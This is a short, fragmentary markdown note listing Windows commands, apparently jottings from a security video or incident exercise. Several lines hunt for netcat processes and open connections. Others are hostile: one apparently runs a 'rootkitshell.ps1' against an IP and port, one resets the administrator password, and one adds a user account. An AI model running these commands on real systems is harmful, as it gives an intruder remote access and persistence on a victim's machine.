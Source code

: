 - https://www.youtube.com/watch?v=y9KI-rWGOUA
- `get-wmiobject win32_process | ?{$_.name -eq "nc.exe"} | select name, commandline`
- `get-nettcpconnection` (`netstat -ano | findstr "PID :PortNumber"`)
- `commander --iex <ip> <port> rootkitshell.ps1` ? 
- `net user administrator Password1234`
- `net user DefaultAccount /add`